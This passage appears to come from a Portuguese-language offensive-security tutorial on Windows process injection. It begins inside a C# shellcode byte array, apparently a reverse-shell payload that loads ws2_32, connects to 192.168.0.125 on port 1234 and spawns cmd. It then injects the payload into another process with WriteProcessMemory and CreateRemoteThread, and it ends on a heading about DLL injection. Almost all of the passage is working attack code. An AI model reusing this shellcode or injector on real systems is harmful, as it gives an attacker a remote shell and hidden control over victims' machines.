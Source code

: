```csharp
            0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
            0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
            0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
            0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
            0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
            0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
            0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
            0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
            0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
            0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
            0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
            0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x04,0xd2,
            0xc0,0xa8,0x00,0x7d,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
            0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
            0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
            0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,
            0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,
            0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,
            0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,
            0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
            0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,
            0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,
            0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x01,0x01,0x48,0x8d,
            0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,
            0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
            0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,
            0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,
            0xba,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,
            0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,
            0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
            0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5};


            IntPtr outSize;

            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }

    }
}
```
# Injeção de DLL

## API utilizada
